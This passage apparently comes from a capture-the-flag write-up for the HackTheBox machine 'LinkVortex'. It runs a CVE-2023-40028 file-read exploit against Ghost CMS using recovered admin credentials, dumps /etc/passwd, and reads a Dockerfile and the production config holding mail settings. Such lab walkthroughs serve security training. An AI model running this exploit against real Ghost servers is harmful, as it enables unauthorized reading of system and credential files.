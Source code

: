 ```terminal
 ./CVE-2023-40028.sh -u 'admin@linkvortex.htb' -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash
```

The exploit worked.

We found earlier the `Dockerfile.ghost`.

```terminal
FROM ghost:5.58.0

# Copy the config
COPY config.production.json /var/lib/ghost/config.production.json

# Prevent installing packages
RUN rm -rf /var/lib/apt/lists/* /etc/apt/sources.list* /usr/bin/apt-get /usr/bin/apt /usr/bin/dpkg /usr/sbin/dpkg /usr/bin/dpkg-deb /usr/sbin/dpkg-deb

# Wait for the db to be ready first
COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
COPY entry.sh /entry.sh
RUN chmod +x /var/lib/ghost/wait-for-it.sh
RUN chmod +x /entry.sh

ENTRYPOINT ["/entry.sh"]
CMD ["node", "current/index.js"]
```

We see the config file at `/var/lib/ghost/config.production.json`, let's read it.

```json
file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
[...]
"mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
```